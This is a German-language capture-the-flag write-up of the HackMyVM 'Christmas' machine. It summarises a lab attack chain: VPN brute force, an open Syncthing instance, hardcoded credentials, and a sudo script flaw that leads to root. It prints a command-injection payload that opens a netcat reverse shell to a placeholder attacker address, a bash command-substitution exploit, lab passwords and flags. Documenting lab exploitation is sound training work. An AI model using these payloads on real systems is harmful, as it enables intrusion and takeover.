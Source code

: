 # Christmas - HackMyVM (Hard)

![Christmas Icon](Christmas.png)

## Übersicht

*   **VM:** Christmas
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Christmas)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 29. Dezember 2023
*   **Original-Writeup:** https://alientec1908.github.io/Christmas_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Christmas" von HackMyVM (Schwierigkeitsgrad: Hard) bot eine komplexe Herausforderung, die mehrere Eskalationsschritte erforderte. Der initiale Zugriff wurde durch einen Brute-Force-Angriff auf einen PPTP-VPN-Dienst erlangt, gefolgt von der Ausnutzung einer ungesicherten Syncthing-Instanz im internen Netzwerk, um an Quellcode mit hartkodierten Web-Login-Daten zu gelangen. Eine Command Injection-Schwachstelle in einer Admin-Funktion der Webanwendung ermöglichte dann eine Shell als `www-data`. Die weitere Eskalation erfolgte durch das Finden von Benutzer-Credentials in einer Konfigurationsdatei und schließlich durch die Ausnutzung einer fehlerhaften Bash-Skript-Logik in einer `sudo`-Regel, um Root-Rechte zu erlangen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / `nano`
*   `nikto`
*   `nmap`
*   `gobuster`
*   `bash` (für Scripting)
*   `pptpsetup`
*   `ip`
*   `apt`
*   `syncthing`
*   `systemctl`
*   `unzip`
*   `ModHeader` (Browser Plugin)
*   `curl`
*   `nc` (netcat)
*   `script` (für Shell-Stabilisierung)
*   `ssh-keygen`, `ssh`
*   `openssl` (für Zufallszahlengenerierung im Exploit)
*   `tr`, `head`, `touch`
*   Standard Linux-Befehle (`cd`, `ls`, `cat`, `su`, `sudo`, `cp`, `chmod`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Christmas" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration (Extern):**
    *   Identifizierung der Ziel-IP (`192.168.2.106`) via `arp-scan` und Eintrag als `christmas.hmv` in `/etc/hosts`.
    *   `nikto` und `nmap` zeigten offene Ports: 22 (SSH 9.2p1), 80 (Apache 2.4.57) und **1723** (PPTP). Nikto meldete fehlende Sicherheitsheader, Directory Indexing (`/assets/`, `/images/`), eine `robots.txt` und `/login.php`.
    *   `gobuster` fand weitere PHP-Dateien (`generic.php`, `elements.php`).
    *   `robots.txt` verwies auf `/webid`.
    *   Im Quellcode der Startseite wurde die E-Mail `admin@christmas.hmv` gefunden (potenzieller Benutzername).

2.  **Initial Access (PPTP & Syncthing):**
    *   Ein Bash-Skript (`vpncrack.sh`) wurde verwendet, um den PPTP-Dienst (Port 1723) mit dem Benutzernamen `admin` und einer Wortliste zu brute-forcen. Das Passwort `princesa` wurde gefunden.
    *   Nach erfolgreicher PPTP-Verbindung wurde das interne Netzwerk (`192.168.3.0/24`, Gateway `192.168.3.1`) gescannt.
    *   `nmap` auf `192.168.3.1` offenbarte interne Dienste, darunter **Syncthing** auf Port 8384 (Web-GUI) und 22000.
    *   Die Syncthing-Weboberfläche auf `http://192.168.3.1:8384` war ohne Passwort zugänglich.
    *   Die lokale Syncthing-Instanz des Angreifers wurde mit der Ziel-Instanz gekoppelt.
    *   Der Ordner `/srv/ftp` wurde auf der Ziel-Syncthing-Instanz für das Angreifer-Gerät freigegeben.
    *   Die Synchronisation brachte eine `backup.zip`-Datei zum Vorschein, die den Quellcode der Webanwendung enthielt.

3.  **Web Application Exploitation (Shell als www-data):**
    *   Analyse des entpackten Quellcodes von `login.php` enthüllte hartkodierte Zugangsdaten: `admin`:`MyPassword1@2023*`.
    *   Der Login-Prozess war mehrstufig:
        1.  Login auf `/login.php` mit `admin`:`MyPassword1@2023*` leitete zu `2fa.php`.
        2.  Um auf `/webid/admin/login.php` zuzugreifen, musste der `Referer`-Header auf `http://christmas.hmv/2fa.php` gesetzt werden (mit ModHeader).
        3.  Der Login auf `/webid/admin/login.php` erforderte `admin`:`MyPassword2@2023*` (vermutlich ebenfalls im Code gefunden oder erraten).
    *   Eine Command Injection-Schwachstelle wurde in `/webid/admin/categoriestrans.php` identifiziert.
    *   Mittels eines `curl`-Skripts wurde ein POST-Request gesendet, der den Payload `categories[123);system(\"nc -e /bin/bash ATTACKER_IP 4444\");/*]=test` enthielt. Authentifizierung wurde durch gesetzte Cookies und Referer simuliert.
    *   Eine Reverse Shell als Benutzer `www-data` wurde erfolgreich etabliert.

4.  **Privilege Escalation (www-data zu mr-jack):**
    *   Im Home-Verzeichnis von `mr-jack` (`/home/mr-jack/`) wurde die Datei `.config/.SecureGateway/firewall_config.conf` gefunden.
    *   Diese Datei enthielt Klartext-Zugangsdaten: `mr-jack`:`m3rrychr157m4523`.
    *   Mit `su mr-jack` und dem gefundenen Passwort wurde zum Benutzer `mr-jack` gewechselt.
    *   Die User-Flag wurde aus `/home/mr-jack/user.txt` gelesen.

5.  **Privilege Escalation (mr-jack zu root):**
    *   `sudo -l` für `mr-jack` zeigte: `(ALL : ALL) NOPASSWD: /opt/GiftPursuit`.
    *   Das Skript `/opt/GiftPursuit` verglich eine eingegebene Zahl mit einer zufällig generierten. Bei Übereinstimmung hätte es `chmod o+s /bin/bash` ausgeführt.
    *   Die Schwachstelle lag im Bash-Vergleich `[[ "${NUMBER}" -eq "${1}" ]]`. Durch Übergabe eines Arguments wie `'x[$(COMMAND)]'` wurde `COMMAND` via Command Substitution ausgeführt, *bevor* der arithmetische Vergleich fehlschlug.
    *   Der Exploit-Befehl war: `sudo /opt/GiftPursuit 'x[$(chmod +s /bin/bash)]'`.
    *   Dies setzte das SUID-Bit auf `/bin/bash`.
    *   Mit `/bin/bash -p` wurde eine Root-Shell erlangt (euid=0).
    *   Die Root-Flag wurde aus `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Schwache VPN-Passwörter:** Ermöglichte initialen Netzwerkzugriff via PPTP Brute-Force.
*   **Ungesicherte Syncthing-Instanz:** Zugriff auf die Web-GUI ohne Passwort ermöglichte Dateisynchronisation und Exfiltration von Quellcode.
*   **Hartkodierte Credentials:** Passwörter direkt im PHP-Quellcode und in Konfigurationsdateien.
*   **Fehlerhafte Authentifizierung/Autorisierung:** Komplexer, fehleranfälliger Login-Prozess mit Referer-Abhängigkeit.
*   **Command Injection:** In der Webanwendung (`categoriestrans.php`) durch unsichere Verarbeitung von Benutzereingaben.
*   **Unsichere `sudo`-Konfiguration mit fehlerhaftem Skript:** Ein Bash-Skript mit einer Command-Substitution-Schwachstelle konnte missbraucht werden, um SUID-Rechte auf `/bin/bash` zu setzen.
*   **Directory Indexing & Informationslecks:** Offenlegung von Verzeichnisstrukturen und E-Mail-Adressen.

## Flags

*   **User Flag (`/home/mr-jack/user.txt`):** `caf45c355c29186bb9d8ab89f7811bf0`
*   **Root Flag (`/root/root.txt`):** `93ba7e97218f577271c3867abf31ae8a`

## Tags

`HackMyVM`, `Christmas`, `Hard`, `PPTP`, `VPN Brute-Force`, `Syncthing`, `Command Injection`, `Hardcoded Credentials`, `Sudo Privilege Escalation`, `Bash Script Exploitation`, `Web`, `Linux`
